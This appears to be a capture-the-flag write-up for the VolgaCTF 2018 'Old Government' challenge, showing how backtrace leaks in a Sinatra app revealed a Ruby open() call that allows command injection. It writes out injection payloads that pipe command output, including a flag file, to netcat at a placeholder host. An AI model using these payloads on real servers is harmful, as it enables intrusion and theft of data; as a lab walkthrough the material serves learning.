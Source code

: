 ```yaml
---
layout: post
title: volgactf 2018 - Old Government
author:
  name: onionpsy
  github: onionpsy
---
```


We started by checking the link on the header and we saw that an `id` is passed in the url with the id of the page: `page?id=36`. After some tries we found that we could crash the application by passing id as an array, like that : `page?id[]=36`.

```ruby
NoMethodError at /page
undefined method `to_i' for ["36"]:Array Did you mean? to_s to_a to_h
```

It gave us info that the website is powered by Sinatra, a ruby web framework.

On the backtrace, we could see part of the code.

### articles.erb
```ruby
            case @id.to_i

    when 2
      erb :page2
    when 5
      erb :page5
    when 18
      erb :page18
    when 23
```

### app.rb
```ruby

        headers "Server" => ""
      	erb :index
      end

      get '/page' do
      	@id = params[:id]
        headers "Server" => ""

      	erb :articles

      end

      post '/page' do
      	@id = params[:id]
        headers "Server" => ""
      	erb :articles
      end
```

After a few tries on the pages, we found that the page with the id 18 has a form with 2 fields. One is waiting a valid url (`site`) and the other is an optional description (`description`). We used once again the `page?id[]=36` trick but through the POST this time. This gave us more informations about the code. The most interesting one is this function:

```ruby
  def siteValidator(site)
    begin
  	  r = open(site, :allow_redirections => :all)
	(...)
```

Judging by the name it seems that this one is ran on the site field of the post query. Judging by [OWASP - Ruby on Rails Cheatsheet](https://www.owasp.org/index.php/Ruby_on_Rails_Cheatsheet), `open` can be actually used to inject command.
After some tries we can see that it works:
 * `site=| ls` show `validated`
 * `site=| aaaa` show `error`

But because we don't have any sort of output, we decided to create a reverse shell using netcat (present on the server) using this syntax: `site=| <command> | netcat <ip> <port>`

After some directory listing, we saw the flag file:
`site=| cat ../../flag | netcat <ip> <port>`

Done!
